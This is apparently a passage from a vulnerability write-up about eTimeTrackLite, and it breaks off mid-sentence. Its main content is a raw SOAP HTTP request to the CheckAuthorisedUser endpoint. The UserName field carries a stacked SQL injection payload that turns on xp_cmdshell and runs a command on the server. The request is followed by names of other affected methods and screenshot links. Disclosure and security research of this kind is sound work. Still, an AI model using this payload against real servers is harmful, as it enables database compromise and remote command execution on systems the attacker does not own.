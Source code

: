 ```http
POST /MobileAppService.asmx HTTP/1.1
Accept-Encoding: gzip, deflate, br
Content-Type: text/xml;charset=UTF-8
SOAPAction: "http://tempuri.org/CheckAuthorisedUser"
Content-Length: 501
Host: 192.168.1.222:83
User-Agent: Apache-HttpClient/4.5.5 (Java/16.0.1)
Connection: keep-alive

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:CheckAuthorisedUser>
        
         <tem:UserName>x';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;EXEC xp_cmdshell 'cmd /c calc';-- </tem:UserName>

         <tem:UserPassword>xxx</tem:UserPassword>
      </tem:CheckAuthorisedUser>
   </soapenv:Body>
</soapenv:Envelope>
```

In addition, there are many

WebService.AddDeviceConnectivityStatus(string, string) : void @06000354

![image-20250516174827067](eTimeTrackLite/image-20250516174827067.png)

eTimeTrackLiteLibrary.Manage.DeviceManagement.GetDeviceIdByName(string, ref int, ref ErrorObj) : void @060009A8

![image-20250516174904780](eTimeTrackLite/image-20250516174904780.png)
